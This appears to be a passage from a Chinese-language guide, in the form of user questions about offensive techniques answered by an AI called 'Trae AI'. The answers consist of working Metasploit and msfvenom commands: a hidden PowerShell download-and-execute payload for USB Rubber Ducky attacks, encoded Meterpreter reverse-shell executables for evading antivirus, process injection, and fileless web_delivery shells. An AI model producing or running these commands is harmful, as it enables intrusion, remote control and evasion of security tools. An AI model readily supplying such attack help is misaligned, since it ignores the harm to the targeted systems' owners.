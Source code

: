 
### 物理訪問攻擊

**用戶提問：**
```
利用物理訪問進行攻擊
```

**Trae AI 建議的技術：**
```
# 1. USB Rubber Ducky payload 生成
use payload/windows/exec
set CMD "powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.100/payload.ps1')\""
generate -f psh-cmd

# 2. 設置 Web 服務器提供 payload
use auxiliary/server/capture/http_basic
set URIPATH /payload.ps1
run
```

## 防禦規避技術

### 反病毒規避

**用戶提問：**
```
如何規避目標系統的反病毒軟件？
```

**Trae AI 建議的技術：**
```
# 1. 使用多重編碼
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded.exe

# 2. 使用內存注入技術
use exploit/windows/local/payload_inject
set PAYLOAD windows/meterpreter/reverse_tcp
set PID [target_process_id]
exploit

# 3. 使用 PowerShell 無文件攻擊
use exploit/multi/script/web_delivery
set PAYLOAD windows/meterpreter/reverse_tcp
set TARGET 2
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

### 網絡檢測規避
